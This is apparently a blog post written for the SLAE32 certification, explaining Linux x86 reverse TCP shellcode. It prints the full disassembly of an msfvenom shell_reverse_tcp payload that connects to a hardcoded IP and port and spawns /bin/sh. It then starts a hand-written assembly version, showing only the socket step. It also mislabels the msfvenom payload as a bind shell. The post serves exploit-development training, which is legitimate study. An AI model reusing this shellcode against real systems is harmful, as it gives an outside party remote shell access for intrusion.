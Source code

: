 ```yaml
---
title: "SLAE32 0x02: Shell_Reverse_TCP Shellcode"
date: 2019-10-25
category: [SLAE32]
tags: [assembly, c, python, exploit development, reverse shell, linux, SLAE32]
header:
    teaser: "/assets/images/slae/rev_shell.jpg"
---
```

In contrast to a bind shell (which is explained in the previous post), a reverse shell is a type of shell in which the system on which the code is run connects a TCP socket to a remote IP address and port that have been designated to listen for incoming connections prior to the execution of the reverse shell. In other words, when a reverse shell is used, the system on which the reverse shell is executed acts as the system that initiates the connection while the remote system acts as the listener. Upon succesful connection to the remote system, a shell will be spawned on the system on which the code is run.

As previously demonstrated, it is wise to begin by analyzing the code of a TCP reverse shell written using a higher level language. The C program shown in the upcoming section will be used for this purpose. It is worth nothing here that there are many similarities in code between the two TCP shell types, so references to the previous post will be common, and some previous explanations may be reused. The focus will lie on the major differences in code between the TCP bind shell and the TCP reverse shell.

Once analysis of the C program is complete, the program will be re-written using assembly. This processes is documented and explained in detail following the C code analysis.

The third section will demonstrate a program written in Python that allows a user to configure an IP address and port number to be used in the Shell_Reverse_TCP shellcode.

## Objectives
Create a Shell_Reverse_TCP shellcode that;
1. Connects to an easily configurable IP address and port number
2. Executes a shell on a successful connection



### Create a TCP Socket
`int socket(int domain, int type, int protocol);`

### Connect TCP Socket to IP Socket Address Structure
`int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);`

### Direct Connection Socket Output
`int dup2(int oldfd, int newfd);`

### Execute Program
`int execve(const char *pathname, char *const argv[], char *const envp[]);`

## MSFVenom Shellcode Under the Microscope
We can analyze what a bind or reverse shell would look like by looking at the C function calls. In this case, I thought it would be fun to see what 
msfvenom was doing and to my surprise, I found an interesting artifact while comparing code snippets to my dissassembly. The major difference is that 
in most C code segments that I found, dup2 was being called after `connect`. The syscall order (which may not matter entirely, I don't know yet), 
is `socket`, `dup2`, `connect`, and `execve`. The dup2 and connect may be swappable however, I will stick to the same order that msfvenom uses for consistency.

### Referencing MSF Goodies

```msfvenom -p linux/x86/shell_reverse_tcp -f raw| ndisasm -u -``` produces a bind shell payload the size of 68 bytes for us to compare to our generated shellcode.

```nasm
xor ebx,ebx  
mul ebx  
push ebx  
inc ebx  
push ebx  
push byte +0x2 
mov ecx,esp  
mov al,0x66 ; socketcall syscall
int 0x80 
xchg eax,ebx  
pop ecx  
mov al,0x3f ; dup2
int 0x80  
dec ecx  
jns 0x11  
push dword 0x80fea8c0 
push dword 0x5c110002 
mov ecx,esp  
mov al,0x66  ; socketcall syscall wrapper 
push eax  
push ecx  
push ebx  
mov bl,0x3  
mov ecx,esp  
int 0x80  
push edx  
push dword 0x68732f6e 
push dword 0x69622f2f 
mov ebx,esp  
push edx  
push ebx  
mov ecx,esp  
mov al,0xb  ; execve
int 0x80 
```
##Building a Reverse TCP Shell
In this excercise, we will build a bind tcp shell using 4 syscalls. In the previous bind shell blog, 
I called each syscall directly using their hexidecimal referrence rather than using the socketcall wrapper. 
In this exersize, I will use socketcall where possible to learn the difference in usage. According to `man socketcall`, 
we will be using socket call to wrap the `socket` and `connect` syscalls. `dup2` and `execve` will not be wrapped.

###Socketcall System Call Explained

Conveniently, two of the four functions from the list above are all accessible via the socketcall system call. As detailed in man socketcall, the function expects two arguments.

```
#include <linux/net.h>
int socketcall(int call, unsigned long *args);  
```
The call argument determines which socket function to use, and the args argument is a pointer to an area of memory that contains the arguments for the socket function specified by call. For a list of socket functions and their respective values that are passable as the call argument to socketcall, the /usr/include/linux/net.h file should be referenced. The available functions for socketcall are shown below.

```
root@kali:~/workspace/SLAE# grep SYS /usr/include/linux/net.h
#define SYS_SOCKET      1               /* sys_socket(2)                */
#define SYS_BIND        2               /* sys_bind(2)                  */
#define SYS_CONNECT     3               /* sys_connect(2)               */
#define SYS_LISTEN      4               /* sys_listen(2)                */
#define SYS_ACCEPT      5               /* sys_accept(2)                */
...
```

###Socket

```nasm
global _start	; Standard start
		;
section .text	;
_start:		;

xor ebx, ebx	; Zero out registers before usage to avoid a logic error
xor ecx, ecx	;
mul cx		; ax = ax * cx (0)

; int socketcall(int call, unsigned long *args)
; *args: (int domain, int type, int protocol) 
; syscall number: 102 (0x66)
;
; Arguement Values:
; EAX -> socketcall sycall 0x66
; EBX -> int call 0x1 = sys_socket
; ECX -> ESP pointer
; STACK -> *args
; *args Values:
; EBX -> domain = 2 (AF_INET/IPv4)
; ECX -> type = 1 (SOCK_STREAM/TCP)
; EDX -> protocol = 0 (IPPROTO_TCP)
;

push ebx	; push 0x0
push 0x1	; 1 = SOCK_STREAM
push 0x2	; 2 = AF_INET
mov al, 0x66	; socketcall syscall
mov bl, 0x1	; sys_socket
mov ecx, esp	; *args pointer
int 0x80	; interrupt
```

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

